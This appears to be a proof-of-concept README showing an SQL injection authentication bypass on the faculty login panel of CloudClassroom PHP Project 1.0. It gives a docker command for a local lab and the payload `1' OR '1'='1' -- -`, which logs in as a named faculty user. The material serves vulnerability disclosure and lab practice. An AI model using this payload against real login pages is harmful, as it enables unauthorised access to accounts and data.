




# PoC-CloudClassroom-AuthBypass
## Proof of Concept - Authentication Bypass on Faculty Login Panel - CloudClassroom PHP Project 1.0

### Run application docker:
```
sudo docker run -d --name cloudclassroom-lab --restart=always  -p 9292:80 bladscan/cloudclassroom-sqli:1.0
```

### Access the application: http://127.0.0.1:9292/


### Click on Login and select "Faculty Login"


### On Administrative Panel "Faculty Login", insert in "Faculty ID:" the payload `1' OR '1'='1' -- -` ,on Password field, "anything" and click on "Login" buttom.
http://127.0.0.1:9292/facultylogin


### You are authenticated with "Reeta Grower" user.

